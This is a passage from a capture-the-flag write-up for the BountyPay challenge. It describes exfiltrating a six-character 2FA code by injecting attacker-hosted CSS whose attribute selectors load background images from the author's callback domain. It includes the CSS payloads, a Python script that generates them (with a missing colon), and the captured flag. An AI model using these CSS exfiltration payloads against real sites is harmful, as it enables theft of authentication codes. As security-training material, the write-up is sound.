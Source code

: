 ```http
app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css
```
Seeing that css file, I thought I might have been able to [exfiltrate the code via CSS injection](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense), so I tried that.
After many attempts, it turned out that the code I needed was in an input field.
To figure out its name, i used many CSS rules like this (hosted on a server that I own):
```css
input[name^=a] ~ *{
    background-image: url(https://mycollaboratordomain.net/char_1/a);
}
```
The whole file was made by repeating that for all characters (a-zA-Z).
With this method I was able to figure out what the first character of the input name was (c), as I got a callback on mycollaboratordomain.net with the correct character as path...I just had to repeat it for the second character and so on... 
```css
input[name^=ca] ~ *{
    background-image: url(https://mycollaboratordomain.net/char_2/a);
}
```
It turned out that there were many input fields, one for each character of the code...and their names were ranging from `code_1` to `code_6`.
At this point I made a new css file by repeating this CSS rule for all the input codes and all the characters (a-zA-Z):
```css
input[name=code_1][value^=$a] ~ *{
    background-image: url("https://mycollaboratordomain.net/code_1/$a");
}
```
I made a quick, ugly,  python3 script to generate it:
```python
import string
def get_css_rule(id, char):
    return "input[name=" + str(id) + "][value=" + str(char) + "] ~ *{\n    background-image: url(https://mycollaboratordomain.net/" + str(id) + "/" + str(char) + ");\n}\n"

with open("uni_2fa_style.css", "a") as css_file:
    codes = ['code_1', 'code_2', 'code_3', 'code_4', 'code_5', 'code_6']
    chars = list(string.ascii_uppercase) + list(string.ascii_lowercase)
    for code in codes:
        for char in chars
            css_file.write(get_css_rule(code, char))
```
After sending the 2FA code request and writing the CSS URL of my own custom file instead of the original  `app_style=https://www.bountypay.h1ctf.com/css/uni_2fa_style.css`, I got all the callbacks that I needed to figure out the 2FA code...or at least I thought so...the code was not valid!

Brute-forcing to the rescue
=====================

After a further look, It appeared that the 2FA code was 7 characters long (I assumed that from the `maxlength="7"` html attrubute of the page where I was supposed to input it).
So we were missing the last character...maybe?
No problem, I only had to bruteforce it with Burp Suite's Intruder!
Here's the flag, `^FLAG^736c635d8842751b8aafa556154eb9f3$FLAG$`!
{F852419}
